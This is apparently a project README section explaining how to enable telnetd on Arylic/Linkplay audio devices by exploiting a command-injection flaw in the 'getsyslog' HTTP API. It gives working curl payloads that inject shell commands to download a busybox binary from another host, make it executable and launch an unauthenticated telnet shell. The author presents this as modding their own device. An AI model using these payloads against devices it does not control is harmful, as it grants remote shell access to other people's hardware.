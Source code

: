 # Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.52 for my Arylic Up2Stream Pro v3 device and 10.1.1.22 for a web server running on my local MacMini. 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash";
```
The command above is executing the following commands on the device:
```
wget -O /tmp/bin/busybox -T 5 http://10.1.1.22/a31/busybox -q;
chmod 777 /tmp/bin/busybox;
/tmp/bin/busybox telnetd -l/bin/ash
```
The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. 

A version of busybox is provided here, but there is an OpenWRT archive where you can get precompiled binaries for almost all utilities you may need. See section **_Hardware and Firmware_** for more information.

You may also redirect output and error output for telnetd: 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;wget+-O+/tmp/bin/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;chmod+777+/tmp/bin/busybox;/tmp/bin/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;";
```


